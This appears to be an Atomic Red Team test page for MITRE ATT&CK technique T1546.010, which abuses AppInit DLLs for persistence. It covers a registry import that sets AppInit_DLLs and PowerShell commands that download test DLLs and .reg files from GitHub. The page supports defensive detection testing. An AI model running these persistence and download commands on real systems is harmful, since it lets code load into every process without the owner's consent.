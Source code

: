 # T1546.010 - Event Triggered Execution: AppInit DLLs

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/010)

<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppInit DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppInit_DLLs</code> value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Elastic Process Injection July 2017)

Similar to Process Injection, these values can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry) Malicious AppInit DLLs may also provide persistence by continuously being triggered by API activity.

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation: AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)

<br/>

## Atomic Test #1 - Install AppInit Shim

AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution,
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regularly as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

Note: If secure boot is enabled, this technique will not work. https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls

**Supported Platforms:** Windows

**auto_generated_guid:** a58d9386-3080-4242-ab5f-454c16503d18

#### Inputs:

| Name                  | Description           | Type | Default Value                                                       |
| --------------------- | --------------------- | ---- | ------------------------------------------------------------------- |
| registry_file         | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010.reg         |
| registry_cleanup_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010-cleanup.reg |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg.exe import "#{registry_file}"
```

#### Cleanup Commands:

```cmd
reg.exe import "#{registry_cleanup_file}" >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})

##### Check Prereq Commands:

```powershell
if ((Test-Path "#{registry_file}") -and (Test-Path "#{registry_cleanup_file}")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{registry_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```

##### Description: DLL's must exist in the C:\Tools directory (T1546.010.dll and T1546.010x86.dll)

##### Check Prereq Commands:

```powershell
if ((Test-Path c:\Tools\T1546.010.dll) -and (Test-Path c:\Tools\T1546.010x86.dll)) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010.dll" -OutFile C:\Tools\T1546.010.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010x86.dll" -OutFile C:\Tools\T1546.010x86.dll
```

<br/>
